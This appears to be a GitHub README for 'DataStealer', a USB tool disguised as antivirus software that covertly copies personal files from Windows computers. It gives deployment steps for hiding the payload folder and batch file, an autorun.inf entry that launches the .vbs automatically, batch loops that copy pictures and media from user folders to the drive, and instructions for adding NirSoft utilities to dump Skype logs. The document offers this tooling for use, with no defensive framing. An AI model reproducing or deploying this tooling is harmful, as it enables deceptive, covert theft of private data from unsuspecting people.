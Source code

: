 # DataStealer

## Information
DataStealer pretends be a Antivirus USB to gather personal information in Windows systems.

## Intructions
Just copy all files/folders and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration

### Folders
If you want you can add more lines with folders in **"run.bat"** for gather information

Like this:
>REM ############ Formats ############
>
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%rest%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")
>
>REM #################################

Replace **"%userprofile%\Pictures\"** for any folder.

### Formats
If you want you can add more formats in **"run.bat"** of files to gather

Like this:
>REM ############ Formats ############
>
>set rest= \*.jpg,\*.png,\*.mp4,\*.3gp,\*.wav,**\*.avi**
>
>REM #################################

### More funcionalities (Nirsoft)
NirSoft web site provides a unique collection of small and useful freeware utilities, all of them developed by Nir Sofer. 

For more funcionalities, go to [nirsoft.net](www.nirsoft.net "Nirsoft"), download software and put in "data/soft/" folder

Later add a line for each software in **"run.bat"**

Like this:
>REM ############ Nirsoft ############
>
>start data/soft/**SkypeLogView**.exe /shtml "data\pss\%USERNAME%\\**SkypeLogView**.html"
>
>REM #################################

Replace **SkypeLogView** in both places with the software name

# Download
